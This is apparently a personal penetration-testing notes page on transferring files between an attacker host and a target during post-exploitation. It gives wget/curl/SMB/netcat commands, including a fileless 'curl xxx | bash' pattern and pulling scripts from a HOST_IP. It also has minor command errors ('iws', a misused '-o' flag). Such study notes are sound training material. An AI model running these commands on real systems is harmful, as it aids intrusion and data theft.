 # Transfer files 🛅

[![filetransfers](../../../_badges/htb/filetransfers.svg)](https://academy.hackthebox.com/course/preview/file-transfers)

<div class="row row-cols-lg-2"><div>

We will often want to transfer files between your machine, and the target. Mostly during privilege escalation and post-exploitation.

According to the current environment capabilities <small>(e.g., installed tools)</small> and restrictions <small>(e.g. firewall)</small>, we will have to use different techniques.

The most common approaches from the host to the target:

* Copy-pasting <small>(short text files)</small> ✂️
* Python web server <small>(using wget/cURL/iwr as client)</small> 🐍

📚 There are also fileless techniques to avoid storing the file on the target, such as `curl xxx | bash` or other similar tricks.
</div><div>

To transfer a file from the target to the host, it's often harder and more complex. Some common approaches are:

* Copy-pasting <small>(short text files)</small> ✂️
* Moving files to the webserver directory <small>(if applicable)</small> 📂
* Python web server <small>(often available on Linux)</small> 🐍
* Using services such as SCP/FTP/SMB/NFS/... <small>(if present)</small> 🎡
* Using installed tools such as nc, php, etc. 🧯

We may use checksum functions/commands to check that the file was correctly transferred. [Refer to cryptography/hashing/checksum](/cybersecurity/cryptography/algorithms/hashing/index.md#file-checksum).
</div></div>

<hr class="sep-both">

## Exposing a file to others 🔒

<i class="small">On the "host" where the file is:</i>

<div class="row row-cols-lg-2"><div>

#### Python webserver 🐍

You may try with `python2`, and `python3` if `python` is unavailable.

```shell!
$ python -m http.server port # port > 1023 | expose pwd
$ python [...] --directory /path/to/server/root
$ sudo python -m http.server port # port <= 1023
```

#### Upload To SMB Share

You can use `copy` to upload a file to a SMB share:

```shell!
PS> copy file.txt \\HOST_IP\share_name\path
PS> robocopy file.txt \\HOST_IP\share_name\path
```

If guest access is not allowed, try [mounting the share](/operating-systems/networking/protocols/smb.md).
</div><div>

#### Other webservers 🎡

You may leverage an installed web development tool/package:

```shell!
$ php -S 127.0.0.1:8080 # php
$ http-server -p 8080   # node "http-server" package
```
</div></div>

<hr class="sep-both">

## Downloading an exposed file 🔑

<i class="small">On the "client" that need the file:</i>

<div class="row row-cols-lg-2"><div>

#### Using Common Utilities

The `wget` command is available on both Linux and Windows.

```shell!
$ # Download on Linux
$ wget HOST_IP:port/script.sh -o /tmp/script.sh
PS> # Download on Windows
PS> wget HOST_IP:port/script.ps1 -o $Env:TMP/script.ps1
```

You may have to use `curl` or `iws` (Windows-only) instead of `wget`.

```shell!
$ curl HOST_IP:port/script.sh -o /tmp/script.sh
PS> curl HOST_IP:port/script.ps1 -o $Env:TMP/script.ps1
PS> iws HOST_IP:port/script.ps1 -o $Env:TMP/script.ps1
```
</div><div>

#### Download From SMB Share

You can use `copy` to download a file from a share:

```shell!
PS> copy \\HOST_IP\share_name\file_path
PS> robocopy \\HOST_IP\share_name\file_path .
```

If guest access is not allowed, try [mounting the share](/operating-systems/networking/protocols/smb.md).
</div></div>

<hr class="sep-both">

## Other methods

<div class="row row-cols-lg-2"><div>

#### services 🕳️

You may use FTP/SCP/NFS/SMB/... if applicable. You can easily create a SMB server on your machine using [impacket](/operating-systems/networking/protocols/tools/impacket.md) scripts.
</div><div>

#### netcat 🐈

```ps
# host
$ nc CLIENT_IP port < file.sh
# client
$ nc -lvp port > file.sh
```

<br>

#### Copy-paste ✂️

Copy-paste may be an option, but not every file can be copy-pasted. One trick is to encode the file using base64, copy-paste the base64 payload on a file on the target, and decode the file on the target.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [Windows File Transfer Cheatsheet](https://infinitelogins.com/2020/09/04/windows-file-transfer-cheatsheet/)
* [croc](https://github.com/schollz/croc)
</div><div>
</div></div>